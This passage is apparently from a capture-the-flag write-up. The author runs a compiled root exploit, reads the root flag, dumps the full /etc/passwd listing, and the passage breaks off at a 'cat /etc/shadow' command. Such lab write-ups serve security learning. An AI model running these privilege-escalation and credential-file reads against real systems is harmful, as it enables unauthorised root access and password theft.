 Then run the exploit:

{% highlight bash %}
./shell
whoami
root
{% endhighlight %}

And for the root flag:

{% highlight bash %}
cd /
locate flag.txt
cat /root/flag.txt
807307b49314f822985d0410de7d8bfe
{% endhighlight %}


## Flag 3

Now that I had root (and it's flag) time to start looking around more...

{% highlight bash %}
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
syslog:x:101:104::/home/syslog:/bin/false
mysql:x:102:106:MySQL Server,,,:/nonexistent:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
bind:x:104:114::/var/cache/bind:/bin/false
postfix:x:105:115::/var/spool/postfix:/bin/false
dovecot:x:106:117:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:107:118:Dovecot login user,,,:/nonexistent:/bin/false
landscape:x:108:119::/var/lib/landscape:/bin/false
sshd:x:109:65534::/var/run/sshd:/usr/sbin/nologin
postgres:x:110:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
avahi:x:111:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
colord:x:112:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
kippo:x:1001:27::/home/kippo:/bin/bash
statd:x:113:65534::/var/lib/nfs:/bin/false
systemd-timesync:x:114:125:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:115:126:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:116:127:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:117:128:systemd Bus Proxy,,,:/run/systemd:/bin/false
uuidd:x:100:101::/run/uuidd:/bin/false
lxd:x:118:65534::/var/lib/lxd/:/bin/false
_apt:x:119:65534::/nonexistent:/bin/false
dnsmasq:x:120:65534:dnsmasq,,,:/var/lib/misc:/bin/false

cat /etc/shadow